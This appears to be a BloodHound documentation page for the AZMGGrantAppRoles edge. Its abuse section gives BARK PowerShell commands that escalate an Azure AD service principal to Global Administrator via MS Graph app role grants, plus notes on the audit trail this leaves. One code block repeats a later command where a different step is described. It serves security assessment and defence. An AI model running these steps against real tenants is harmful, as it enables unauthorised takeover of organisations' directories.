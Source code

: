 ---
title: AZMGGrantAppRoles
description: "This edge is created during post-processing."
---

<Frame>
  <img src="/hc/images/image-2-1.png"/>
</Frame>

It is created against AzureAD tenant objects when a Service Principal has one of the following MS Graph app role assignments:

* AppRoleAssignment.ReadWrite.All
* RoleManagement.ReadWrite.Directory

## Abuse Info

With the ability to grant arbitrary app roles, you can grant the RoleManagement.ReadWrite.Directory app role to a Service Principal you already control, and then promote it or another principal to Global Administrator.

These functions require you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to grant app roles. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Use BARK’s Get-AllAzureADServicePrincipals to collect all Service Principal objects in the tenant:

```bash
$SPs | ?{$_.appId -Like "00000003-0000-0000-c000-000000000000"} | Select id
```
Next, find the MS Graph Service Principal’s ID. You can do this by piping $SPs to Where-Object, finding objects where the appId value matches the universal ID for the MS Graph Service Principal, which is 00000003-0000-0000-c000-000000000000:

```bash
$SPs | ?{$_.appId -Like "00000003-0000-0000-c000-000000000000"} | Select id
```

The output will be the object ID of the MS Graph Service Principal. Take that ID and use it as the “ResourceID” argument for BARK’s New-AppRoleAssignment function. The AppRoleID of ‘9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8’ is the universal ID for RoleManagement.ReadWrite.Directory. The SPObjectId is the object ID of the Service Principal you want to grant this app role to:

```bash
New-AppRoleAssignment `
    -SPObjectId "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
    -AppRoleID "9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8" `
    -ResourceID "9858020a-4c00-4399-9ae4-e7897a8333fa" `
    -Token $MGToken
```
If successful, the output of this command will show you the App Role assignment ID. Now that your Service Principal has the RoleManagement.ReadWrite.Directory MS Graph app role, you can promote the Service Principal to Global Administrator using BARK’s New-AzureADRoleAssignment.

```bash
New-AzureADRoleAssignment `
    -PrincipalID "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
    -RoleDefinitionId "62e90394-69f5-4237-9190-012177145e10" `
    -Token $MGToken
```
If successful, the output will include the principal ID, the role ID, and a unique ID for the role assignment.

## Opsec Considerations

When you assign an app role to a Service Principal, the Azure Audit logs will create an event called “Add app role assignment to service principal”. This event describes who made the change, what the target service principal was, and what app role assignment was granted.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
